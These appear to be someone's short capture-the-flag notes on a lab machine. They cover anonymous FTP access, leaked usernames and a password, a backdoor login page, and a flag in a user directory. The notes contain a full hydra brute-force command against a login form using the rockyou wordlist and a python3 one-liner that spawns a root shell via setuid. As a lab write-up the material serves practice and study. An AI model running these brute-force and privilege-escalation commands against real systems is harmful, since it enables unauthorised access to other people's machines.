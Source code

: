 ftp has files on anonymous login with ls -la. //Maybe use "binary" or "quote PASV"

rcampbell user from ftp note 

rcampbell	kristina \\use hydra to bruteforce password
also same for gcrawford

gcrawford has nano running with root privleges \\check with gtfobins to get root

http://<IP>/backdoor is a login page with /backdoor/shell 
user is plague and we can use hydra with 
"hydra <IP> http-post-form '/api/login:username=^USER^&password=^PASS^:Incorrect' -l plague -P ~/rockyou.txt -t 64"

In rcampbell shell, use "python3 -c "import os,pty; os.setuid(0); pty.spawn('/bin/bash')"

there is a flag on gcrawford directory.

